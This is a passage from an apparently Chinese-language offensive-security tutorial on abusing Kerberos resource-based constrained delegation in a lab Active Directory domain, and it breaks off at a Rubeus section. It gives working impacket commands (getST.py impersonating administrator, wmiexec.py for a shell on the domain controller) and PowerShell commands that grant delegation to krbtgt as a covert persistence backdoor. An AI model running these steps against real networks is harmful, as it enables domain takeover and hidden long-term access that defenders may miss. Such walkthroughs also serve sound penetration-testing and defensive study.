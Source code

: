 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZ8UZ4ylVBGn40reMVCicrb3q5Y9BYv8ibJqibgq0uSgB0pV33jhSzx9zww/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZqFu1ibkT9AsFbUoUXBZvXVNlJ0xh2GJNhfias6OHa2eHib7qjia1fF8Fwg/640?wx_fmt=png)

在 Kali 上进行攻击

```
./getST.py -dc-ip 192.168.10.131 -spn krbtgt/XIE.COM -impersonate administrator xie.com/test:x123456.\/
export KRB5CCNAME=administrator.ccache
./wmiexec.py -no-pass -k administrator@win2008 -dc-ip 192.168.10.131
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZw3DF8JjEm3nes7DKByjcFxSCgJicYo7AAU4eibicLJeziauaYG0gAJicLCw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/7QRTvkK2qC6D2OhibHUMz1XiaC7v0RcUA1icaxROuwbvf2Nqmcz53iat2YiaGq0ibvOsA2KakWoa80iahsYGXhDHFMiaxw/640?wx_fmt=gif)

**利用基于资源的约束委派打造隐蔽后门 (权限维持)**
============================

· 域控：Win2012   192.168.10.24

· 域成员主机：Win7  192.168.10.130

· 普通域用户：xie\hack

首先修改 kali 的 /etc/hosts/ 文件，添加如下内容

192.168.10.24 win2012

192.168.10.24 xie.com

配置基于资源的约束委派

这里我们用刚刚新建的 test 用户作为服务 A，配置用户 test 到 krbtgt 的基于资源的约束委派

```
Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount test
Get-ADUser krbtgt -Properties PrincipalsAllowedToDelegateToAccount
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZxkaiaVJzuicNa7acIbdbzSxtYzXy9dvwAsaPWxLUpm6SBhiaKUw1Dfiaicw/640?wx_fmt=png)

**在 Kali 上使用 impacket 进行攻击**
----------------------------

```
./getST.py -dc-ip 192.168.10.24 -spn krbtgt -impersonate administrator xie.com/test:x123456.\/
export KRB5CCNAME=administrator.ccache
./wmiexec.py -no-pass -k administrator@win2012 -dc-ip 192.168.10.24
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2fg1GV1q6H2IRXooXnCxnZZLVWh0YCrhrd6PV5fl05c6g0OhZGXp1GIoxIibdiaDXmLHseDQ7jZgYFg/640?wx_fmt=png)

**在 Win7 上使用 Rubeus 进行攻击**
--------------------------

现在我们在 Win7 上用普通域用户 xie\hack 使用 Rubeus 进行基于资源的约束性委派攻击
